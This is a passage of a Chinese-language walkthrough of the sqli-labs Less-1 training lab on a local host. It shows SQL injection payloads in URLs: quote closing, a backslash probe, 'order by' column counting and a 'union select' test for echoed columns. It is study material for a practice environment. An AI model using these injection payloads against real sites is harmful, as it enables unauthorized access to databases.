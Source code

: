 ```
http://centos7-6.local/sqli-labs/Less-1/?id=1' --+
```

> 正常

手动闭合

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' and '1
```

> 正常，存在字符型 sql 注入

**判断闭合方式**

提交转义符 `\` 

```
http://centos7-6.local/sqli-labs/Less-1/?id=1\
```

> 报错

查看报错

```
'1\' LIMIT 0,1
```

> `\` 后的 `'` 被转义，无法闭合，闭合符号为 `'`

**判断字段数量**

利用 `order by` 判断

```
http://centos7-6.local/sqli-labs/Less-1/?id=1' order by 4 --+
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段

### 2.1.2 联合查询

**爆显示位置**

已知有 3 个字段，提交三个字段查看显示位置

```
http://centos7-6.local/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

可以看到只有 2，3 处有回显

![可以看到只有 2，3 处有回显](./../../../../images/SQLI%20labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E5%8F%AA%E6%9C%89%202%EF%BC%8C3%20%E5%A4%84%E6%9C%89%E5%9B%9E%E6%98%BE.png)
